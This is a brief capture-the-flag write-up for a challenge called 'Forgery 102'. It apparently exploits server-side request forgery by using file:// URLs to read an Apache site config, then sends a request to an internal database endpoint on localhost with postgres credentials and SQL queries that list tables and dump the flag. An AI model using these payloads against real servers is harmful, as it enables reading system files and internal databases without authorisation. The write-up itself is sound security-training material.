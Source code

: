 # Forgery 102
Server uses Apache2 so we can check for important files    
https://medium.com/@amey0x/the-most-common-files-for-apache-configurations-23b6b4105f14

And we try this one:   
``file://////etc/apache2/sites-available/000-default.conf``

We get this site/directory:   
``file:////var/www/html/database/index.php``

So then we want to connect to database by using ``localhost:8080`` and passing as arguments
``user=postgres&password=Let%26me%3Din&query=SELECT * FROM information_schema.tables`` 
to get the list of tables and we see that flag db contains flag_82454eeebdae556f451d9a3924 

so we do:   
``user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_82454eeebdae556f451d9a3924``

``FLAG-Lv06965bgw7t1NVUSIHowXgxOCwzlRn2``
